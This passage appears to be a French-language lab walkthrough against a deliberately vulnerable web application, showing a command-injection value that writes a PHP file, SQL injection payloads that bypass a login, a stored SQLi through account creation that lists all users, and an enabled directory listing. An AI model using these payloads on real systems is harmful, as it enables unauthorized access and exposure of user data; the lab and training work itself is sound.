 test | echo "<?php phpinfo ?>" > phpinfo.php

### Non-persistent SQLi 

Test d'injection via la page de login:

> `' OR 1=1`

L'injection fonctionne et nous retourne un beau message d'erreur qui nous dévoile une partie de la requete SQL utilisée.

```
you have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' and `password` = SHA1( CONCAT('\' OR 1=1', `salt`)) limit 1' at line 1
```

Le mot de passe est "échapé", mais pas le login ! 

Il sufit donc d'ajouter un `;` et un `#` ou `--` pour commenter le reste de la requête !

> `' OR 1=1; #`

### Persistent SQLi

Autre injection possible via le formulaire de création de compte. Il est possible de créer un compte dont le login est `' OR 1=1`.
Une fois le compte créer, nous pouvons utiliser le lien "Who's got a similar name to you?" (http://10.10.56.202/users/similar.php) qui affiche la liste de tous les utilisateurs !

```
Sample User
bob
scanner1
scanner2
scanner3
scanner4
scanner5
wanda
calvinwatters
bryce
test
Smith
' OR 1=1
```

## Extra 

### Web browsing - manual

Le directory Listing est activé !

http://10.10.56.202/users/

http://10.10.56.202/users/login.php => page de login
